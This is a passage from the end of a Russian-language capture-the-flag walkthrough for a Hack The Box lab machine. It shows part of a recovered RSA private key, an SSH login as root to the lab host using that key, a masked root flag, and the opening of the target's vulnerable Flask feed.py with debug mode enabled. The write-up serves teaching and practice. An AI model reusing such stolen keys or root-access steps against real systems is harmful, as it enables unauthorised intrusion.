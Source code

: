 ```
+qML/WvECgYEAyNoevgP+tJqDtrxGmLK2hwuoY11ZIgxHUj9YkikwuZQOmFk3EffI
+T3Sd/6nWVzi1FO16KjhRGrqwb6BCDxeyxG508hHzikoWyMN0AA2st8a8YS6jiOog
+bU34EzQLp7oRU/TKO6Mx5ibQxkZPIHfgA1+Qsu27yIwlprQ64+oeEr0=
 -----END RSA PRIVATE KEY-----
+
```

SSH-ключ. Заберем на Кали и ~~попробуем авторизоваться~~ авторизуемся с ним под суперпользователем:
```text
root@kali:~# chmod 600 root.key
root@kali:~# ssh -oStrictHostKeyChecking=no -i root.key root@10.10.10.91
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.

Last login: Mon Mar 26 06:23:48 2018 from 192.168.57.1
root@gitter:~# whoami
root

root@gitter:~# id
uid=0(root) gid=0(root) groups=0(root)
```

### root.txt
```text
root@gitter:~# cat /root/root.txt
d4fe1e7f????????????????????????
```

Финита ля комедия :triumph:

# Эпилог
## feed.py
Посмотрим, какие символы блочили нам захват исходников `/home/roosa/deploy/src/feed.py` целиком:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# TODO: replace manual upload with proper integration to backend


from flask import Flask, request, redirect, url_for, send_from_directory
from werkzeug.utils import secure_filename
from werkzeug.debug import DebuggedApplication
import re
import os
import xml.sax
import cPickle as pickle
import base64

class Config(object):
  UPLOAD_FOLDER='.'

ALLOWED_EXTENSIONS = set(['xml'])
app = Flask(__name__)
app.config.from_object(Config)
app.debug=True
```